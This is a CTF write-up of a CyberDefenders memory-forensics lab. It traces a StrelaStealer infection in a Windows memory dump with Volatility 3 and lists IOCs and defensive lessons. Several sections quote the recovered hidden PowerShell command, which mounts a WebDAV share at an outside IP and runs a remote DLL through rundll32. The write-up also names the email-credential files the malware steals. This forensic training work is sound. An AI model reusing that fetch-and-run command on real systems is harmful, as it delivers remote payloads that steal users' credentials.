







# Reveal Lab — CTF Writeup

* **Platform:** CyberDefenders  
* **Challenge:** Reveal Lab  
* **Category:** Endpoint Forensics / Memory Analysis  
* **Difficulty:** Easy  
* **Analyst:** Mahmoud Hussien
* **Tool:** Volatility 3  
* **Artefact:** `192-Reveal.dmp` — Windows Memory Dump

---

## Scenario Overview

A SIEM alert flagged unusual workstation activity at a financial institution on a machine with access to sensitive financial data. A memory dump was retrieved from the compromised endpoint for forensic analysis. Investigation revealed a hidden PowerShell process executing a Living-off-the-Land attack — mounting a remote WebDAV share and running a malicious DLL via `rundll32.exe` — attributed to the **StrelaStealer** malware family, which specializes in stealing email client credentials.

---

## Attack Chain Overview

```
[1] Execution (07:00:03 UTC)
    └─ powershell.exe (PID: 3692 / PPID: 4120)
    └─ Flag: -windowstyle hidden

[2] Infrastructure Mapping
    └─ net use \\45.9.74.32@8888\davwwwroot\
    └─ Mounts remote WebDAV share silently

[3] Second-Stage Payload
    └─ rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry
    └─ DLL executed directly from remote share

[4] Credential Theft
    └─ StrelaStealer targets Outlook + Thunderbird
    └─ Exfiltrates to 45.9.74.32
```

---

## Question 1 — What is the name of the malicious process?

### Volatility Command

```bash
vol -f 192-Reveal.dmp windows.cmdline | grep -A 1 "powershell.exe"
```

### Investigation

`windows.cmdline` extracts the full command-line arguments for every running process from memory. Filtering for `powershell.exe` revealed a hidden instance with a suspicious command line — the `-windowstyle hidden` flag makes the PowerShell window completely invisible to the logged-in user, a standard attacker technique to execute malicious scripts without triggering visual alerts.

**Full command line extracted:**

```powershell
powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ;
rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry
```

This single command performs two sequential actions:
1. Mounts the attacker's WebDAV share as a network drive
2. Immediately executes the malicious DLL from that remote share

### Answer

```
powershell.exe
```


---

## Question 2 — What is the parent PID of the malicious process?

### Volatility Command

```bash
vol -f 192-Reveal.dmp windows.pstree | grep "powershell.exe"
```

### Investigation

`windows.pstree` reconstructs the parent-child process hierarchy from EPROCESS structures in memory. The output for `powershell.exe` shows:

| Field | Value |
|---|---|
| Process | `powershell.exe` |
| PID | `3692` |
| **PPID** | **`4120`** |
| Creation Time | `2024-07-15 07:00:03 UTC` |

The parent process (PID: 4120) spawned this hidden PowerShell instance — identifying the PPID is critical for tracing the full attack chain and determining the initial execution vector (e.g., phishing document, malicious macro, or browser exploit).

### Answer

```
4120
```


---

## Question 3 — What is the file name used to execute the second-stage payload?

### Volatility Command

```bash
vol -f 192-Reveal.dmp windows.cmdline | grep -A 1 "powershell.exe"
```

### Investigation

From the same command-line extraction, the `rundll32` call at the end of the PowerShell command reveals the second-stage payload filename:

```
rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry
```

The file `3435.dll` is executed via `rundll32.exe` — a **Living-off-the-Land Binary (LOLBin)** technique where a legitimate Windows utility is abused to execute malicious code. The `,entry` suffix specifies the DLL export function to call upon loading.

Executing the payload directly from a remote UNC path (`\\IP@PORT\share\`) means the DLL is **never written to disk** on the victim machine — a fileless execution technique that evades disk-based antivirus scanning.

### Answer

```
3435.dll
```


---

## Question 4 — What is the name of the shared directory on the remote server?

### Volatility Command

```bash
vol -f 192-Reveal.dmp windows.cmdline | grep -A 1 "powershell.exe"
```

### Investigation

Parsing the UNC path from the `net use` command:

```
\\45.9.74.32@8888\davwwwroot\
```

Breaking down the UNC path components:

| Component | Value | Description |
|---|---|---|
| IP | `45.9.74.32` | Attacker's remote server |
| Port | `8888` | WebDAV over HTTP (non-standard port) |
| Share | `davwwwroot` | Remote shared directory name |

**WebDAV** (Web Distributed Authoring and Versioning) is an HTTP extension that allows mounting remote file systems over HTTP — enabling the attacker to host the malicious DLL on a web server and have the victim mount it as a local network share without needing SMB.

### Answer

```
davwwwroot
```


---

## Question 5 — What is the MITRE ATT&CK sub-technique ID for this execution method?

### Investigation

The attack used `rundll32.exe` — a legitimate Windows utility — to execute the malicious DLL payload. This is a well-documented **System Binary Proxy Execution** technique where attackers abuse trusted Windows binaries to run untrusted code, bypassing application whitelisting and security controls.

**MITRE ATT&CK mapping:**

| Level | ID | Name |
|---|---|---|
| Technique | T1218 | System Binary Proxy Execution |
| **Sub-technique** | **T1218.011** | **Rundll32** |

### Answer

```
T1218.011
```


---

## Question 6 — What is the username the malicious process runs under?

### Volatility Command

```bash
vol -f 192-Reveal.dmp windows.sessions | grep "powershell.exe"
```

### Investigation

`windows.sessions` maps running processes to their associated Windows login sessions and user contexts. Filtering for `powershell.exe` confirmed the user account under which the malicious process was executing:

| Field | Value |
|---|---|
| Hostname | `DESKTOP-T51LU0E` |
| User | `Elon` |
| Process | `powershell.exe` (PID: 3692) |

The malware ran under the `Elon` user context — meaning it inherited that user's permissions and had full access to all files, browser profiles, and email client data accessible to that account. No privilege escalation was required, as the user's access level was sufficient for credential theft.

### Answer

```
Elon
```


---

## Question 7 — What is the name of the malware family?

### Investigation

The attacker's infrastructure IP (`45.9.74.32`) and behavioral patterns — specifically:
- WebDAV-based DLL delivery
- `rundll32.exe` proxy execution via remote UNC path
- Targeting of email client credentials (Outlook + Thunderbird)

were submitted to open-source threat intelligence platforms. The combination of these indicators uniquely matches **StrelaStealer** — a commodity information-stealing malware specializing in email credential theft.

**StrelaStealer targets:**

| Application | Data Stolen |
|---|---|
| Microsoft Outlook | Stored account credentials |
| Mozilla Thunderbird | `logins.json` + `key4.db` from `%APPDATA%\Thunderbird\Profiles\` |

All harvested credentials are exfiltrated directly back to the attacker's server (`45.9.74.32`).

### Answer

```
StrelaStealer
```


---

## Full Attack Timeline

| Timestamp (UTC) | PID | Event |
|---|---|---|
| 2024-07-15 07:00:03 | 3692 | `powershell.exe` spawned by PID 4120 (hidden window) |
| Sequential | 3692 | `net use` mounts `\\45.9.74.32@8888\davwwwroot\` |
| Sequential | — | `rundll32` loads `3435.dll,entry` from remote WebDAV |
| Post-execution | — | StrelaStealer harvests Outlook + Thunderbird credentials |
| Post-execution | — | Credentials exfiltrated → `45.9.74.32` |

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| Process | `powershell.exe` | Malicious entry point (PID: 3692) |
| PPID | `4120` | Parent process spawning the attack |
| File | `3435.dll` | Second-stage StrelaStealer payload |
| IP | `45.9.74.32` | Attacker WebDAV + C2 server |
| Port | `8888/TCP` | WebDAV over HTTP |
| Share | `davwwwroot` | Remote malicious file share |
| UNC Path | `\\45.9.74.32@8888\davwwwroot\3435.dll` | Full remote payload path |
| User | `Elon` | Compromised user account |
| Host | `DESKTOP-T51LU0E` | Compromised workstation |
| Malware | `StrelaStealer` | Email credential stealer family |

---

## Key Volatility Commands Reference

```bash
# Extract full command-line arguments (reveals full attack command)
vol -f 192-Reveal.dmp windows.cmdline | grep -A 1 "powershell.exe"

# Process tree (PPID + parent-child hierarchy)
vol -f 192-Reveal.dmp windows.pstree | grep "powershell.exe"

# Session and user context mapping
vol -f 192-Reveal.dmp windows.sessions | grep "powershell.exe"

# Full process list
vol -f 192-Reveal.dmp windows.pslist
```

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Execution | T1059.001 | PowerShell (`-windowstyle hidden`) |
| Defense Evasion | T1218.011 | System Binary Proxy Execution: Rundll32 |
| Defense Evasion | T1564.003 | Hidden Window (`-windowstyle hidden`) |
| Defense Evasion | T1071.001 | Web Protocols (WebDAV over HTTP:8888) |
| Credential Access | T1555.003 | Credentials from Password Stores: Email Clients |
| Command & Control | T1105 | Ingress Tool Transfer (remote DLL via WebDAV) |
| Command & Control | T1071.001 | Web Protocols (exfiltration to 45.9.74.32) |

---

## Lessons Learned

1. **Alert on PowerShell with `-windowstyle hidden`** — This flag has almost no legitimate use case outside of attack tooling. Any PowerShell execution with this flag should trigger an immediate EDR alert and process kill.
2. **Block WebDAV over non-standard ports** — `net use` mounting shares over port 8888 is highly anomalous. Enforce egress filtering to block non-standard HTTP ports and monitor `net use` commands to external IPs.
3. **Monitor rundll32.exe loading remote UNC paths** — `rundll32.exe` should never load DLLs from `\\IP\share\` paths. This is a definitive LOLBin abuse pattern detectable via EDR process argument monitoring.
4. **Protect email client credential stores** — StrelaStealer targets Thunderbird's `logins.json` and `key4.db`. Enforce disk encryption and consider using OS-level credential stores rather than application-level storage.
5. **Block the attacker's ASN** — Ihor Hosting Ltd (AS207566) has been associated with malicious infrastructure. Block the ASN range at the perimeter if no legitimate business traffic is expected.
6. **Immediate email credential reset** — All email accounts accessible from `DESKTOP-T51LU0E` under user `Elon` must be treated as fully compromised and reset immediately, along with MFA re-enrollment.

---

*Writeup produced as part of SOC Analyst training — CyberDefenders: Reveal Lab*